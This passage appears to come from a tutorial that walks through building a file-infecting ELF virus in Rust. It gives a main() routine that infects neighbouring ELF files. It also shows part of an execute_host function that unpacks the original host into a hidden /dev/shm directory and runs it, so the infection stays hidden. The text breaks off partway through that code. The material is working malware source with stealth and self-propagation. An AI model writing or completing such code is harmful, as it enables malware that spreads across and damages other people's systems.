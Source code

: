 With the `spread_and_infect` function completed, this virus can infect neighboring ELF files. An infected ELF file will then try to infect its own neighbors, and the spread continues. However, it will not yet execute the host binary; we will implement `execute_host` next.

## Executing the host binary

There are two scenarios here. The original virus binary does not have a host, so this function should be skipped in that case. Otherwise, there is a host which can be extracted and ran. Note that the same will apply to `virus_main`.

It's also important to consider the scenario where multiple infected binaries are run at the same time. For example, one infected program may be in a loop, when another infected program is run. For this reason, hosts should be extracted to unique paths - this sample makes use of the infected binary's name for this. 

`execute_host` is passed the following arguments:
- `name`: the name of the infected binary
- `contents`: the ELF contents of the host
- `args`: the CLI args to forward to the host minus the program name

```rust
/// Code that is executed when an infected file is ran
fn virus_main() {}

/// Extracts and execute the host code
fn execute_host(name: &String, contents: &[u8], args: &Vec<String>) {}

fn main() {
    let args: Vec<String> = env::args().collect();
    let my_name = &args[0];
    if let Ok(my_code) = fs::read(my_name) {
        // Spread and infect neighboring ELFs
        spread_and_infect(".", &my_code[..VIRUS_SIZE]);

        // Run the virus if there is a host attached
        if my_code.len() > VIRUS_SIZE {
            virus_main();
            execute_host(&my_name, &my_code[VIRUS_SIZE..], &args[1..]);
        }
    }
}
```

`execute_host` simply creates a new file, writes the host binary, sets permissions and executes. This way, the host's original behavior is replicated. The `BASE_PATH` below is set in `/dev/shm` to avoid actual writes to disk (instead the file will live in memory). Additionally, the file is cleaned up after execution. 

```rust
use std::process::Command;
use std::os::unix::fs::PermissionsExt;

const BASE_DIR: &str = "/dev/shm/.ferris_first/";

/// Extracts and execute the host code
fn execute_host(name: &String, contents: &[u8], args: &[String]) {
    // Will not fail since we know name is a valid path
    let canon = fs::canonicalize(name).unwrap();
    let mut path = PathBuf::from(BASE_DIR);
    path.push(canon.strip_prefix("/").unwrap());
    let dir = path.parent().unwrap();
    let perms = fs::Permissions::from_mode(0o700);
    
    // Create parent directory, file, and set permissions
    if let Err(_) = fs::create_dir_all(dir) { return; }
    if let Err(_) = fs::write(&path, &contents) { return; }    
```